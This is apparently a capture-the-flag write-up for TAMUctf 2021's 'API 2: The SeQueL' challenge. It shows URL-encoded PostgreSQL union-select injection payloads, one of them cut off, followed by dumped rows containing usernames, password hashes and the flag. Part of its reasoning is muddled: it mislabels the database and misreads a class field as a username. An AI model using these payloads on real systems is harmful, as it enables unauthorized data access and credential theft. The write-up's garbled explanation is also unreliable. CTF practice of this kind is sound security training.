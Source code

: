 # API 2 : The SeQueL
## Description
* TAMUctf 2021 API 2 : The SeQueL - 150 points

    I just made my own SCP collection website. What do you think?
link : http://shell.tamuctf.com/problem/50212/?name=Cone

## Solution
* This challenge was related to simple  PostgreSQL. injection
* The VERSION() function returns the current version of the MySQL database, as a string which let's us know it's postgresql

* "https://shell.tamuctf.com/problem/50034/?name=Cone%27%20union%20select%20%271%27,%20%272%27,%20%27safe%27,(CASE%20WHEN%20((SELECT%20CAST(CHR(32)"

* we get the respective output from this.

* invalid input syntax for type numeric: " 1 Default safe default testing icon avatar 2 Teddy euclid To please the teddy, one must offer them a sacrifice of your finest tea teddy 3 Traffic Cone #88192 neutralized We believe they appear from interdimensional rifts with no clear origin cone 4 Gnomial thaumiel If encountered in the wild do not make eye contact. They only become more aggressive. gnome 5 Ǎ̷̓d̴͗͒d̸͛͛i̷͋̃ṡ̵̍ơ̸̒ṅ̶̌ apollyon H̵̔̂Ė̵̈ ̴̛̽I̵͛͘S̷͒̇ ̷̈́̒Ȁ̷͚L̴̀̿R̴̾̌E̷͆̚Ā̶̛D̷̒̐Y̶͗͌ ̷̏̔H̶̿̚Ẽ̶̄R̷̈́͝E̸̊̈́ crump 1 glenn 9651cbc7c0b5fb1a81f2858a07813c82 Making More Challenges 2 teddy e2ec2b31abe380b989ff057aef66377a PWNing Away 3 admin gigem{SQL_1nj3ct1ons_c4n_b3_fun} Away on Vacation "

* as we can see the user name is thaumiel and hence we include it in our payload
payload="Cone%27+Union+select+1,password,%27thaumiel%27,%27d%27,%27a%27+from+users--"


* it allows to execute a fully formatted subquery within the injected part, which technically has almost the same impact as interacting with a pure PostgreSQL database. 

### Flag is:
* gigem{SQL_1nj3ct1ons_c4n_b3_fun}

